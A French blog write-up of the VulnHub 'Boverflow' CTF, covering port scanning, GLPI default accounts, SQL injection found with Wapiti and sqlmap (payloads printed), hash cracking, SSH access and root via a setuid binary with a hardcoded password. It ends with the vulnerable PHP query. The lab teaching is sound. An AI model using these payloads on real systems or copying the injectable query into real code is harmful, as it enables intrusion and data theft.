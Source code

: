 ```yaml
---
title: Solution du CTF Boverflow de VulnHub
date: 2022-01-11 20:06:00
tags: [CTF, VulnHub]
---
```


Slow Life
---------

[Boverflow](https://www.vulnhub.com/entry/boverflow-1,572/ "Boverflow") est un CTF créé par *foxlox*, auteur de différents CTFs proposé sur VulnHub.  

La description du CTF nous prévient que nos paquets pourraient être DROPés si on charge un peu trop la mule, c'est vraisemblablement dû à la présence d'un *fail2ban*.

Pour un scan de port ça semble passer. Le port 80 nous redirige directement sur une installation de [GLPI](http://glpi-project.org/ "GLPI").

```plain

Nmap scan report for 192.168.56.22
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:0a:c8:cb:7e:d7:3a:f0:5b:3d:c3:ab:1e:dd:a9:f1 (RSA)
|   256 d4:f2:ee:8c:d0:61:74:31:df:6b:5b:e1:c9:de:21:ad (ECDSA)
|_  256 0a:be:d2:86:51:c0:e9:2c:92:ed:15:5e:3c:e1:14:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: GLPI - Authentication
|_Requested resource was http://192.168.56.22/glpi/
|_http-server-header: Apache/2.4.38 (Debian)

```

Ce site nous demande directement des identifiants, il ne semble pas y avoir d'accès publique.  

Une petite recherche sur Internet m'amène sur [ce forum](https://forum.glpi-project.org/viewtopic.php?id=23219 "ce forum") qui liste les comptes par défaut de ce logiciel. Tous ont un mot de passe par défaut qui correspond au nom d'utilisateur :

```plain

you have 4 differents profils
glpi/glpi (super-admin)
tech/tech
postonly/postonly (only for helpdesk)
normal/normal

```

J'ai testé rapidement et le compte *normal* fonctionne. Toutefois il ne semble pas assez privilégié pour ajouter des éléments via l'interface.  

Un exploit pour GLPI existe et [est détaillé dans cet article](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html "est détaillé dans cet article"). Il y a un code d'exploitation publié sur exploit-db et en le lisant on comprends qu'il créé une entrée via la secion *Wifi Networks.*  

Notre compte actuel ne permet donc pas cette exploitation.  

Timmy The Turtle
----------------

Via *feroxbuster* je trouve une mire de login à l'adresse [http://192.168.56.22/admin/](http://192.168.56.22/admin/ "http://192.168.56.22/admin/").  

On peut lancer Wapiti dessus en ne sélectionnant que le ou les modules les plus à même de remonter quelque chose d'intéressant afin d'éviter le ban sur la quantité de requêtes :

```shellsession
$ wapiti -u http://192.168.56.24/admin/ --color -m timesql -v2
[*] Lancement du module timesql
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre username
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=%27%20or%20sleep%287%29%231&password=Letm3in_
---
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre password
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=alice&password=%27%20or%20sleep%287%29%231
---

```

Nice ! On peut enchainer avec SQLmap mais en mode *vas-y molo*. Ça passe en utilisant l'option *delay* mais SQLmap ne la respecte pas vraiment puisqu'il faudrait aussi limiter le parallélisme à un seul thread pour que ce soit effectif.

```shellsession

$ python sqlmap.py -u http://192.168.56.24/admin/verify.php --data "username=admin&password=password" --dbms mysql --risk 3 --level 5 --delay 5

sqlmap identified the following injection point(s) with a total of 1328 HTTP(s) requests:
---
Parameter: username (POST)
	Type: error-based
	Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=admin'||(SELECT 0x43724275 FROM DUAL WHERE 6495=6495 AND (SELECT 4399 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(4399=4399,1))),0x71766a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=password

	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=admin'||(SELECT 0x57544e49 FROM DUAL WHERE 9937=9937 AND (SELECT 9840 FROM (SELECT(SLEEP(5)))WtOD))||'&password=password
---

```

On trouve alors différentes DBs et la courante dispose d'un hash :

```plain

available databases [3]:
[*] basedb
[*] glpi
[*] information_schema

```

```plain

Database: basedb
Table: passwd
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | fox      | be073f86255a6d45d4392ca8fc226e73 |
+----+----------+----------------------------------+

```

Le hash est vite cassé via CrackStation (cleartext : *moanapozzi*).  

J'ai aussi extrais les hashs des users GLPI mais impossible de casser le compte privilégié *glpi*...

Lazy Fox
--------

Les identifiants de la base de donnés nous fournissent finalement un accès via SSH.

```shellsession

fox@boverflow:~$ cat user.txt 
a7de9153594943377ea6e508f5561a67

```

On trouve dans le dossier de l'utilisateur un binaire *mysudo* et son code source associé que voici :

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

char cmd[100];

void execute()
{
	printf("Command output:\n");
	if (cmd) system(cmd);
}

void echo()
{
	printf("\nWelcome to mysudo tool, you can run a command on the system as root.\n\ndon't try brute force, it's impossible!\n\n");
		setuid(0);
	char username[20],password[20];
	printf("Command: ");
	scanf("%s", cmd);
	printf("Username: ");
	scanf("%s", username);
	printf("Password: ");
	scanf("%s", password);
	if ((!strcmp(username,"username"))&&(!strcmp(password,"password")))
	 execute(); 
	else
	 printf("Wrong username or password!\n");
}

int main()
{
	echo();
	return 0;
}

```

Evidemment si on effectue un strings sur le fichier on obtient des chaines sensiblement différentes (le mot de passe attendu a été changé).  

On peut aussi débugger le binaire avec gdb, désassembler la méthode *echo* et placer les breakpoints sur les appels à *strcmp*.  

Une inspection des registres *rdi* et *rsi* permettront ainsi de voir les chaines comparées.

```plain

Command output:
Welcome to mysudo tool, you can run a command on the system as root.
don't try brute force, it's impossible!
Command: 
Username: 
Password: 
username
passworaaaaaaaaaaaaaa
Wrong username or password!

```

On trouve la chaine *passworaaaaaaaaaaaaaa* qui n'est pas dans le code C.

```shellsession

fox@boverflow:~$ ./mysudo 

Welcome to mysudo tool, you can run a command on the system as root.

don't try brute force, it's impossible!

Command: bash
Username: username
Password: passworaaaaaaaaaaaaaa
Command output:
root@boverflow:~# id
uid=0(root) gid=1000(fox) groups=1000(fox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@boverflow:~# cd /root
root@boverflow:/root# ls
root.txt
root@boverflow:/root# cat root.txt 
9057703b55b8943d91cad17ac3c4920f

```

Et voilà !  

Un petit coup d'oeil au fichier verify.php nous permet de voir comment était formé la requête SQL :  

```php
$q="select count(*) from passwd where username='".$_POST['username']."' and password='".$_POST['password']."';";
```


*Published January 11 2022 at 20:06*
